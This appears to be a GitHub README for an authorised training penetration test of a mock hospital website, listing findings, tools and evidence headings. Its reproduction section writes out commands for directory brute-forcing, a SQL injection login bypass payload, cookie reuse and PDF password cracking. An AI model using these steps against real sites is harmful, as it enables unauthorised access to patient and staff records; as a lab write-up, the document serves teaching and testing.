








# 🏥 Mediroza General Hospital — Black-Box Penetration Test


> Authorized black-box penetration test of `medirozahospital.com`, conducted as part of **Networkwalks Batch B083 — Week 4**. This repository documents the methodology, findings, and proof-of-concept evidence gathered during the engagement.

---

## ⚠️ Disclaimer

This assessment was performed against a **designated training target** under **explicit written authorization** from Networkwalks, as part of a structured, educational cybersecurity program. All techniques, scripts, and findings documented here were used strictly within the agreed scope and rules of engagement.

**Do not** apply any technique described in this repository against any system you do not have explicit written permission to test. Unauthorized access to computer systems is illegal in most jurisdictions.

All patient, staff, and shareholder data referenced in this repository is **synthetic training data** generated for this exercise — no real individuals or organizations are represented.

---

## 📋 Engagement Summary

|                 |                                                     |
| --------------- | --------------------------------------------------- |
| **Client**      | Mediroza General Hospital (training target)         |
| **Target**      | `https://medirozahospital.com`                      |
| **Type**        | Full Black-Box Penetration Test                     |
| **Tester**      | Prossy Kawuma Nantumbwe                                        |
| **Program**     | Networkwalks — Batch B084, Week 4                   |


---

## 🎯 Objectives (Milestones)

| #   | Milestone              | Objective                                                              | Status      |
| --- | ---------------------- | ---------------------------------------------------------------------- | ----------- |
| M1  | Initial Access         | Attack the website and retrieve 3 confidential patient PDF lab reports | ✅ Complete |
| M2  | Data Extraction        | Crack the encryption on all 3 retrieved files                          | ✅ Complete |
| M3  | Critical Data Exposure | Find staff salaries and shareholder details                            | ✅ Complete |
| M4  | Reporting              | Produce a professional penetration testing report                      | ✅ Complete |

---

## 🔎 Key Findings

| ID              | Finding                                                         | Severity         | CVSS |
| --------------- | --------------------------------------------------------------- | ---------------- | ---- |
| NW-F06          | SQL Injection → Authentication Bypass (Patient Portal login)    | 🔴 Critical      | 9.8  |
| NW-F04 / NW-F05 | Directory Listing Enabled — Exposed HR/Shareholder DB Backup    | 🔴 Critical      | 7.5  |
| NW-F10          | Weak PDF Encryption Passwords (`123456`, `password`, `!@#$%^&`) | 🟠 High          | 7.1  |
| NW-F02          | Insecure Session Cookie Configuration                           | 🟡 Medium        | 4.3  |
| NW-F07          | Verbose SQL Error Messages                                      | 🟡 Medium        | —    |
| NW-F08          | Username Enumeration                                            | 🟢 Low/Medium    | —    |
| NW-F01          | Missing Security Headers                                        | 🟢 Low           | —    |
| NW-F03          | Inconsistent Cache-Control Headers                              | 🟢 Low           | —    |
| NW-F09          | Potential IDOR on Report Download Endpoint                      | ⚪ Informational | —    |

Full technical detail, proof-of-concept, root cause, and remediation for every finding is documented in [`report/Mediroza_Pentest_Report.pdf`](./report).

---

## 🧭 Attack Chain Overview



---

## 🛠️ Tools Used

| Category          | Tools                                                       |
| ----------------- | ----------------------------------------------------------- |
| Reconnaissance    | `whois`, `dig`, `curl`                                      |
| Content Discovery | `gobuster`                                                  |
| Exploitation      | `curl` (manual SQLi testing), Firefox (manual verification) |
| PDF Forensics     | `exiftool`, `pdfinfo`, `qpdf`                               |
| Password Cracking | `pdfcrack`, John the Ripper (`pdf2john`)                    |
| Reporting         | Markdown / Word / PDF                                       |

---

## 📸 Evidence


### 2️⃣ Authenticated Patient Portal (Proof of Bypass) — NW-F06


### 3️⃣ Directory Listing Exposure — NW-F04 / NW-F05


### 4️⃣ Report Listing in Portal — M1



### 5️⃣ PDF Password Cracking Output — NW-F10





### 6️⃣ Decrypted Pathology Report Content — M2






### 7️⃣ & 8️⃣ Exposed HR Database Contents — M3 / NW-F05






## 📁 Repository Structure

```
mediroza-pentest-b083/
├── README.md                          # This file
├── report/
│   └── Mediroza_Pentest_Report.pdf    # Full professional report (M4)
├── recon/
│   ├── whois_dig_output.txt
│   ├── http_headers.txt
│   └── gobuster_results.txt
├── exploitation/
│   ├── sqli_auth_bypass.md            # Payloads, requests/responses
│   └── directory_listing_exposure.md
├── pdf-cracking/
│   ├── hash_extraction.txt
│   ├── custom_wordlist.txt
│   └── pdfcrack_results.txt
├── evidence/
│   ├── screenshots/
│   │   ├── 01_login_bypass.png
│   │   ├── 02_patient_portal_access.png
│   │   ├── 03_directory_listing.png
│   │   └── 04_decrypted_reports.png
│   └── raw_files/                     # Downloaded (sanitized) artifacts
│       └── mediroza_db_backup_2019.sql
└── LICENSE
```

> **Note:** No real PDFs, credentials, or unredacted PII are committed to this repository — only sanitized evidence and synthetic training data as permitted under the engagement's rules of engagement.

---

## 🚀 Reproducing This Assessment

> For authorized training environments only.

```bash
# 1. Reconnaissance
whois medirozahospital.com
dig medirozahospital.com ANY

# 2. Content discovery
gobuster dir -u https://medirozahospital.com \
  -w /usr/share/wordlists/dirb/common.txt \
  -x php,html,txt,bak,zip,pdf -t 30 -k

# 3. Authentication bypass (SQL Injection)
curl -s -i -c cookies.txt -X POST \
  https://medirozahospital.com/patient/login.php \
  -d "username=admin'-- -&password=x"

# 4. Access authenticated portal
curl -s -b cookies.txt \
  https://medirozahospital.com/patient/portal.php

# 5. PDF password recovery
pdfcrack -f report1.pdf -w custom_wordlist.txt
```

---

## 📑 Report

The full professional penetration testing report — including Executive Summary, Methodology, detailed Findings with CVSS scoring, Risk Assessment, Business Impact, and Remediation guidance — is available at:

📄 [View Full Penetration Testing Report (PDF)](./Penetration%20Testing%20Report.pdf)

---

## 📜 License

This repository is shared for educational purposes under the [MIT License](./LICENSE). See the disclaimer above regarding authorized use.

---

## 🙏 Acknowledgements

- [Networkwalks](https://networkwalks.com) — Batch B084 Cybersecurity Training Program
- OWASP Testing Guide & Top 10 — methodology reference
